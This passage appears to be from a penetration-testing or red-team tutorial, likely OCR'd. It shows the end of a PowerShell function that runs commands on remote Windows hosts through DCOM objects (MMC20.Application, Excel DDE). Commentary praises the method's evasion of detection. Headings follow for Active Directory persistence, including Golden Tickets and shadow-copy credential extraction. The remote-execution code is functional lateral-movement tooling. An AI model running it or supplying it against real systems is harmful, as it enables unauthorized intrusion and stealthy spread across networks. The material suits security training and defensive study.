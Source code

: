 ```powershell
            $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID($DCOMObject, $ComputerName))
        }
        
        switch ($DCOMObject) {
            "MMC20.Application.1" {
                $dcom.Document.ActiveView.ExecuteShellCommand("cmd", $null, "/c $Command", "7")
            }
            "Excel.Application" {
                $dcom.DisplayAlerts = $false
                $dcom.DDEInitiate("cmd", "/c $Command")
                $dcom.Quit()
            }
        }
        
        Write-Output "Command executed successfully on $ComputerName"
    }
    catch {
        Write-Error "DCOM execution failed: $($_.Exception.Message)"
    }
}
```

DCOM lateral movement provides stealthy alternatives to traditional remote execution methods, leveraging legitimate Windows functionality while avoiding common detection signatures associated with tools like PsExec and WMI.

---

# Active Directory Persistence

Once adversaries obtain access to single or multiple hosts, they seek to maintain access as long as possible. This means attacker access must persist through system reboots and credential changes. MITRE defines persistence as a tactic consisting of techniques aimed at maintaining an attacker's foothold on the target network.

Active Directory environments offer both traditional persistence methods and AD-specific persistence techniques that leverage domain infrastructure for long-term access maintenance.

**Important Note:** In many real-world penetration tests or red-team engagements, persistence is not part of the scope due to the risk of incomplete removal once the assessment is complete.

## Table of Contents

### 2. [Active Directory Persistence](#active-directory-persistence)
- **2.1 [Golden Ticket Persistence](#golden-ticket-persistence)**
- **2.2 [Shadow Copies for Credential Extraction](#shadow-copies-for-credential-extraction)**

---


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname